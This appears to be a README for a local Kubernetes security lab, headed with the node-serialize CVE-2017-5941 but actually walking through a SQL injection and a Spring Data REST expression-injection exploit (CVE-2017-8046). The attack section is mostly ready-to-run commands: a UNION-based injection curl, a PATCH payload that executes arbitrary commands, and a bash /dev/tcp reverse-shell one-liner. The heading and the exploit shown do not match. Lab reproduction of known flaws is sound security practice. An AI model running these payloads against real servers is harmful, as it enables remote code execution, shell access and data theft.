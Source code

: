 ## CVE-2017-5941
https://nvd.nist.gov/vuln/detail/CVE-2017-5941#range-6741888 \
Target Application: Node \
Software Link: https://www.npmjs.com/package/node-serialize \
Version: 0.0.4 \
Writeup: https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/ \
Used PoCs: 
* https://packetstormsecurity.com/files/161356/Node.JS-Remote-Code-Execution.html
* https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/

### Steps to Reproduce

## Setup
1- `minikube start` \
2- In FlaskVulnerableFrontEnd/kube run `kubectl apply -f vulnerable-frontend-deployment.yaml` \
3- In SpringBreakVulnerableApp/kube run `kubectl apply -f springbreak-vulnerable-app-deployment.yaml` \
4- Port-forwar both of them with `kubectl port-forward pods/springbreak-vulnerable-app..... 8090:8090` and `kubectl port-forward pods/vulnerable-frontend-.... 5000:5000` \

## Attack
1- First the attacker uses SQL Injection to the frontend with known ip and port with `curl "http://localhost:5000/search?query='%20UNION%20SELECT%20id,%20secret_info%20AS%20info%20FROM%20secrets%20--"` and finds the internet endpoint of the backend server. \
2- Create the attack entity with `curl -i -X POST -H "Content-Type: application/json" -d '{ "name" : "Test", "attribute" : "foo"}' http://localhost:8090/entity` \
3- Then with this knowledge attacker runs the exploit.py, `python exploit.py --ip <ip from injection> --port <port from injection>` \
4- Attacker has connected a pseudo reverse shell. \




## Other ways to create the exploit and its payload
1- To Create server jar in SpringBreakVulnerableApp run `mvn clean install spring-boot:repackage` \
2- Run server `mvn spring-boot:run` \
3- To start server in SpringBreakVulnerableApp run `java -jar -Dserver.port=8090 target/SpringBreakVulnerableApp-1.0.jar --debug` \
4- Create data for exploit `curl -i -X POST -H "Content-Type: application/json" -d '{ "name" : "Test", "attribute" : "foo"}' http://localhost:8090/entity` \
5- To Create exploit jar, in spring-break_cve-2017-8046 run `mvn clean compile package` \
6- To execute commands use ` java -jar spring-break_cve-2017-8046-1.3-jar-with-dependencies.jar --url "http://localhost:8090/entity/1" --command "<command>"` or `curl --request PATCH -H "Content-Type: application/json-patch+json" -d '[{ "op" : "replace", "path" : "T(org.springframework.util.StreamUtils).copy(T(java.lang.Runtime).getRuntime().exec(\"<command>\").getInputStream(), T(org.springframework.web.context.request.RequestContextHolder).currentRequestAttributes().getResponse().getOutputStream()).x", "value" : "pwned" }]' "http://localhost:8090/entity/1/"` \

curl --request PATCH -H "Content-Type: application/json-patch+json" -d '[{ "op" : "replace", "path" : "T(org.springframework.util.StreamUtils).copy(T(java.lang.Runtime).getRuntime().exec(\"bash -c '\''exec 5<>/dev/tcp/127.0.0.1/1234;cat <&5 | while read line; do $line 2>&5 >&5; done'\'' \").getInputStream(), T(org.springframework.web.context.request.RequestContextHolder).currentRequestAttributes().getResponse().getOutputStream()).x", "value" : "pwned" }]' "http://localhost:8090/entity/1/"
